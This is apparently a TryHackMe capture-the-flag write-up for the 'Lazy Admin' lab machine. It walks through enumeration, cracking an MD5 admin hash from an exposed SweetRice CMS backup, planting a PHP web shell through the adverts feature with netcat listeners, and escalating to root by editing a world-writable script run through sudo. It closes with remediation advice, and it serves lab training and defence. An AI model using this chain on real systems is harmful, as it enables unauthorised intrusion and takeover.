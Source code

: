 # TryHackMe Write-up: Lazy Admin

**Machine Name:** Lazy Admin  
**Difficulty:** Easy    

---

## Summary / TL;DR

This Linux box uses the SweetRice CMS. Web enumeration revealed a /content/ installation with accessible backups. From the backup we recovered an MD5 admin password hash and the admin username (manager). Cracking the hash provided admin credentials to the CMS. Using the admin interface we injected a PHP reverse shell via the adverts functionality (vulnerable). With an initial www-data shell we found a sudo misconfiguration allowing the www-data user to run a Perl backup script as root. That script executed /etc/copy.sh, which was world-writable — editing it to include a reverse shell and running the allowed sudo command gave a root shell and the root flag.

## Reconnaissance

Identified two open services (HTTP and SSH).

```
nmap -sV -p- 10.10.x.x
# PORT   STATE SERVICE VERSION
# 22/tcp open  ssh     OpenSSH ...
# 80/tcp open  http    Apache httpd ...

```

Visiting the webroot showed the default Apache/Ubuntu page. 

Directory brute-forcing revealed a content/ directory with the SweetRice CMS files and a login page under /content/as/.

Useful tools / commands used:

```
# Directory discovery
gobuster dir -u http://10.10.x.x/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt -t 50

# Target the content folder
gobuster dir -u http://10.10.x.x/content/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,zip,bak -t 50

```

## Backup Disclosure & Credentials Recovery

The 'content/inc/mysql_backup/' directory was accessible and contained SQL-like backup files. Inspecting the dump revealed an INSERT containing the serialized options array with the admin username and a password hash:

(redacted)
... s:"admin"; s:7:"manager"; s:"passwd"; s:32:"42f749ade7f9e195bf475f37a44cafcb"; ...

The 32-character hex string indicates an MD5 hash.

Save the hash and crack it with John or HashCat

```
echo "42f749ade7f9e195bf475f37a44cafcb" > /tmp/hash.txt
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 /tmp/hash.txt
john --show /tmp/hash.txt

```
The cracked password (...) was used with username manager to log into the admin panel at /content/as/.

## Gaining Initial Access (RCE via Adverts)

1. **Vulnerability**
SweetRice's advert functionality allowed administrators to create adverts whose content could include PHP. Using the admin account we created a new advert and placed a PHP reverse shell (or a minimal <?php system($_GET['cmd']); ?>) as advert content.

2. **Trigger the shell**
The advert file was written to /content/inc/ads/hacked.php. Start a listener on your attacking machine:
```
nc -lvnp 4444

```
Then visit the advert URL to execute the PHP and get a www-data shell.

```
connect to [10.x.x.x] from (UNKNOWN) [10.10.x.x] 39592
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```



## Privilege Escalation to Root

1. **Check sudo previleges**
As www-data, run:

sudo -l

The output showed www-data can run /usr/bin/perl /home/itguy/backup.pl as root without a password:

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
2. **Inspect the script**
backup.pl executed /etc/copy.sh:
```
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

3. **Modify /etc/copy.sh (world-writable)**
/etc/copy.sh was writable. It either contained a reverse shell or was modifiable — edit it to call your listener, then run the allowed sudo command:

```
# on attacker
nc -lvnp 5554

# on target (as www-data)
sudo /usr/bin/perl /home/itguy/backup.pl
```
The above yields a root shell.

4. **Capture flags**
With root access, read /root/root.txt and any user flags such as /home/itguy/user.txt.


## Remediation & Mitigations

- Never expose backups or .git directories in web-accessible locations. Store backups outside the webroot and restrict access.

- Use proper password hashing (bcrypt/Argon2) with salts — MD5 is insecure.

- Harden upload/content features: sanitize inputs and disallow raw PHP injection through user-editable adverts or themes.

- Least privilege for web processes: avoid NOPASSWD sudo entries that the webserver user can invoke.

- Fix permissions for scripts in /etc: files executed by sudo should not be writable by unprivileged users.


## Conclusion

Lazy Admin demonstrates the danger of exposed backups, weak password storage, and overly permissive file permissions combined with unsafe sudo configuration. The exploitation chain is: disclosure → crack hash → admin login → PHP injection upload → initial shell → sudo misuse → root shell.
---